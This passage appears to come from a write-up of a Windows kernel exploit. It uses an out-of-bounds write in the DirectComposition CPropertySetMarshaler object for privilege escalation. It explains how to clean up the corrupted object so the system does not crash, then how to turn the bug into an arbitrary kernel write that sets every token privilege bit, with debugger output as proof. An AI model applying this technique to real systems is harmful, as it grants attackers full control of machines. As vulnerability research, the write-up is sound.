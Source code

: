 
This brings up a good point. We will have to clean up the corrupted CPropertySetMarshaler anyway at some point, to prevent a bluescreen. Thankfully its destructor is pretty permissive; we just need to zero out the same bytes using the same out-of-bounds write primitive.

```
void * __thiscall
DirectComposition::CPropertySetMarshaler::`vector_deleting_destructor'
          (CPropertySetMarshaler *this,uint param_1)

{
  if (*(longlong *)(this + 0x48) != 0) {
    Win32FreePool();
    *(undefined8 *)(this + 0x48) = 0;
  }
  *(undefined4 *)(this + 0x54) = 0;
  *(undefined4 *)(this + 0x50) = 0;
  if (*(longlong *)(this + 0x38) != 0) {
    Win32FreePool();
    *(undefined8 *)(this + 0x38) = 0;
  }
  *(undefined4 *)(this + 0x44) = 0;
  *(undefined4 *)(this + 0x40) = 0;
  if ((param_1 & 1) != 0) {
    Win32FreePool(this);
  }
  return this;
}
```

We also don't want to set token+0xb8 to 0 (this just so happens to be the default dacl offset btw), so we attempt the out-of-bounds write, quit after some (very small) number of successful attempts, and save the property id of the object used to perform each successful attempt. In the cleanup stage, we perform the oob write with only this subset of objects, setting whatever they overwrote to back to 0. If say we have found 8 candidates, we can be almost certain none of the 8 are adjacent to another candidate chunk due to heap randomization. Sequential allocations are expected to be non-adjacent (although there were previously some ways to force a deterministic allocation, these were patched in 16179 I think). Although randomization makes our heap layout less predicatable, we use the nondeterminism to our advantage in this way. Some of our propertyset buffers will be adjacent to other propertyset buffers instead of CPropertySetMarshaler due to randomization, but this is fine since they don't contain a pointer or any sensitive metadata at the offset we're writing to. In the end it's very reliable.

Now we can turn our out-of-bounds write into an arbitrary write to a kernel-mode address, without ever messing with vtables or rop chains or any of that. *If* Windows had effective SMAP this would still be permitted. After all this we can overwrite the present and enabled bitmasks of _SEP_TOKEN_PRIVILEGES to all be 1

```
0: kd> dx -id 0,0,ffffce867c9b9080 -r1 (*((ntkrnlmp!_SEP_TOKEN_PRIVILEGES *)0xffffbb0abbc37910))
(*((ntkrnlmp!_SEP_TOKEN_PRIVILEGES *)0xffffbb0abbc37910))                 [Type: _SEP_TOKEN_PRIVILEGES]
    [+0x000] Present          : 0xffffffffffffffff [Type: unsigned __int64]
    [+0x008] Enabled          : 0xffffffffffffffff [Type: unsigned __int64]
    [+0x010] EnabledByDefault : 0x40800000 [Type: unsigned __int64]
```

